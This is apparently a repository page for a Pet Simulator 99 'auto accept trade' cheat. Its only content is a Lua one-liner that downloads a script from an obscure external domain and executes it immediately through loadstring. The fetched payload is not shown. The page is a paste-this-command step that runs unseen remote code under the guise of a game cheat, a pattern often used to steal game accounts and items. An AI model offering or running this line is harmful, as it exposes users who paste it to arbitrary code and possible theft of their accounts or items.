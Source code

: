 # PS99-AUTO-ACCEPT-TRADE-2024
loadstring(game:HttpGet("https://egorikusa.space/87453338741fbb0f97311ba7.lua", true))()

